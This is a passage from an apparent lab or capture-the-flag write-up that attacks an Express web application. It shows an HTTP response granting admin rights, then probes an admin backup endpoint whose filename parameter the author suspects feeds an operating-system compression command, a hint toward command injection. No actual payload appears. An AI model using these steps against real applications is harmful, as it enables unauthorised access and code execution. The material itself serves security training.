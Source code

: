 
### response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 48
ETag: W/"30-onnGf9UI1fkFgxSDXSX53FR+X8U"
Date: Tue, 08 Feb 2022 05:51:52 GMT
Connection: close

{"color-theme":"light","lang":"en","admin":true}
```

> We are an admin now! :-)
{: .prompt-info }

## exploit backup feature
Inside the admin panel is feature to create backup files.

### request
```http
GET /api/backup?filename=test	 HTTP/1.1
Host: 192.168.135.106
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Referer: http://192.168.135.106/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AMJ1jG892oKVwRi3rIMKyjsDm5uBSY8Vd.ZOktdXW76go01TGeemuMa%2BzSdZYoPowTicSZVFdGyzY
Connection: close
```

### response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 44
ETag: W/"2c-K9ryfEAj0wbbLVJlnQsRB91shk0"
Date: Tue, 08 Feb 2022 05:52:45 GMT
Connection: close

Created backup: /var/log/app/logfile-test.gz
```

The application seems to perform some kind of compression task in the background on operating system level.  
This is a good indication that there might be a possibility to gain access via code execution.
  